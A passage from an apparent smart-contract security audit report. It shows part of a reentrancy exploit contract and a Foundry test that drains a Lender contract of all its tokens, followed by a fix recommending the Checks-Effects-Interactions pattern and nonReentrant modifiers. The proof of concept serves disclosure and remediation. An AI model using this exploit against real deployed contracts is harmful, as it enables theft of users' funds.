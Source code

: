 ```solidity
                    p.poolBalance = amount - lenderBalance;
                }
                lender.setPool(p);
            }          
        }
    }

}
```
Here are the tests that can be added to `Lender.t.sol` to illustrate the steps of an attacker:
```solidity
function test_exploit() public {
	// Setup
	address attacker = address(0x5); 
	WeirdToken weirdToken = new WeirdToken(10_500*10**18); 
	weirdToken.transfer(address(lender), 9_500*10**18);
	weirdToken.transfer(address(attacker), 1_000*10**18);

	// Before the exploit
	assertEq(weirdToken.balanceOf(address(lender)), 9_500*10**18);      // Lender contract has 9_500 weirdToken
	assertEq(weirdToken.balanceOf(address(attacker)), 1_000*10**18);    // Attacker has 1_000 weirdToken

	// Exploit starts here
	vm.startPrank(attacker);
	Exploit3 attackContract = new Exploit3(lender);
	weirdToken.transfer(address(attackContract), 1_000*10**18);
	attackContract.attack(address(weirdToken), 1_000*10**18);

	// After the exploit
	assertEq(weirdToken.balanceOf(address(lender)), 0);                 // Lender contract has been drained
	assertEq(weirdToken.balanceOf(address(attacker)), 10_500*10**18);   // Attacker stole all the tokens
}
```

## Tools Used
Manual review + Foundry

## Recommendations
Follow the _Checks - Effect - Interactions_ (CEI) pattern by updating the pools mapping (Line 175) before transfering the funds AND use nonReentrant modifiers
## <a id='H-04'></a>H-04. Sandwich attack to steal all ERC-20 tokens in the Fees contract
